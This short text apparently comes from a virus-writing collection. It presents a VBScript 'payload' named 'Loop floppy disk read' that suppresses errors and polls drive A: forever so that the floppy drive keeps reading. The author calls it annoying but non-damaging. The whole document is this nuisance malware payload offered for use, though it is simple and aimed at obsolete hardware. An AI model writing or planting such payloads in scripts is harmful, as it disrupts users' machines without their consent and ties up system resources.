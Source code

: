 --------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------
